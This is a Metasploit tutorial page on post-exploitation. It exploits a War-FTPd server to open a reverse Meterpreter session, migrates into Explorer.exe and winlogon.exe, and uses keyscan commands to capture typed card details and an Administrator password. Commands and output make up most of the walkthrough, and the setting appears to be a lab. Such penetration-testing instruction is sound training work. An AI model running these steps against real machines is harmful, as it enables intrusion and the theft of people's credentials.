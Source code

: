 ```yaml
---
draft: false
title: MSF Meterpreter Persistence
linkTitle: MSF Meterpreter Persistence
translationKey: msf-meterpreter-persistence
date: 2017-06-15T13:54:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Providing persistence after logging in to the target system with Meterpreter.
url: /msf-meterpreter-persistence/
featured_image: /images/metasploit.jpg
categories:
    - Metasploit Framework
tags:
    - cybersecurity
    - metasploit framework
weight: 410
---
```

## Ensuring Persistence

When you successfully log in to a target computer, the first thing to consider is to ensure persistence, if the current permissions allow it. Persistence involves creating open doors for later entry into the target system or finding easier entry methods.

In some cases, the work you do on the target can make the system unstable. When the system needs to be restarted, your connection will also be lost. In such cases, it will be useful to create an easy way to reconnect to the target system.

In order to ensure persistence, the discovery of user information, token information, hash information and other subnets it is connected to is very useful for future use.

Another method of gathering information is the method called keylogging.

## Using Keyloggers in Metasploit

When logging into a system, you can take two approaches. Being very fast or being very slow. Keylogging, that is, recording the user's keystrokes and typing, is an example of the slow approach. In this approach, you cannot perform the operations you want to perform very quickly, but you can obtain very useful information in the long run.

First, steal a session on the target system using an exploit module.

```bash
msf exploit(warftpd_165_user) > exploit

> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Connecting to FTP server 172.16.104.145:21...
> Connected to target FTP server.
> Trying target Windows 2000 SP0-SP4 English...
> Transmitting intermediate stager for over-sized stage...(191 bytes)
> Sending stage (2650 bytes)
> Sleeping before handling stage...
> Uploading DLL (75787 bytes)...
> Upload completed.
> Meterpreter session 4 opened (172.16.104.130:4444 -> 172.16.104.145:1246)

meterpreter >
```

After logging in, switching to the `Explorer.exe` process to record the keys is a more guaranteed way to achieve success. We learn which PID number the `Explorer.exe` application is running on the target system and migrate with the `migrate` command.

```bash
meterpreter > ps

Process list
**============**

 PID Name Path
 --- ---- ----
 140 smss.exe \SystemRoot\System32\smss.exe
 188 winlogon.exe ??\C:\WINNT\system32\winlogon.exe
 216 services.exe C:\WINNT\system32\services.exe
 228 lsass.exe C:\WINNT\system32\lsass.exe
 380 svchost.exe C:\WINNT\system32\svchost.exe
 408 spoolsv.exe C:\WINNT\system32\spoolsv.exe
 444 svchost.exe C:\WINNT\System32\svchost.exe
 480 regsvc.exe C:\WINNT\system32\regsvc.exe
 500 MSTask.exe C:\WINNT\system32\MSTask.exe
 528 VMwareService.exe C:\Program Files\VMwareVMware Tools\VMwareService.exe
 588 WinMgmt.exe C:\WINNT\System32\WBEMWinMgmt.exe
 664 notepad.exe C:\WINNT\System32 otepad.exe
 724 cmd.exe C:\WINNT\System32\cmd.exe
 768 Explorer.exe C:\WINNT\Explorer.exe
 800 war-ftpd.exe C:\Program Files\War-ftpd\war-ftpd.exe
 888 VMwareTray.exe C:\Program Files\VMware\VMware Tools\VMwareTray.exe
 896 VMwareUser.exe C:\Program Files\VMware\VMware Tools\VMwareUser.exe
 940 firefox.exe C:\Program Files\Mozilla Firefox\firefox.exe
 972 TPAutoConnSvc.exe C:\Program Files\VMware\VMware Tools\TPAutoConnSvc.exe
 1088 TPAutoConnect.exe C:\Program Files\VMware\VMware Tools\TPAutoConnect.exe

meterpreter > migrate 768
> Migrating to 768...
> Migration completed successfully.
meterpreter > getpid
Current pid: 768
```

After checking the PID transition, let's start the keylogger process.

```bash
meterpreter > keyscan_start
Starting the keystroke sniffer...
meterpreter > keyscan_dump
Dumping captured keystrokes...
tgoogle.cm my credit amex myusernamthi amexpasswordpassword
```

After some time has passed, you can use the `keyscan_dump` command to view the log file. When you examine the captured keystrokes, you can also learn how keys like CTRL or ALT are recorded in the log file.

If you also want to capture the login information, you can switch to the `winlogon` process with the `migrate` command instead of `Explorer.exe`.

```bash
meterpreter > ps

Process list
**=================**

PID Name         Path
--- ----         ----
401 winlogon.exe C:\WINNT\system32\winlogon.exe

meterpreter > migrate 401

> Migrating to 401...
> Migration completed successfully.

meterpreter > keyscan_start
Starting the keystroke sniffer...
```

An Administrator user session was opened during the registration. Let's look at the result.

```bash
meterpreter > keyscan_dump
Dumping captured keystrokes...
Administrator ohnoes1vebeenh4x0red!
```

As can be seen, the logged in user is "Administrator" and the password is "ohnoes1vebeenh4x0red!".
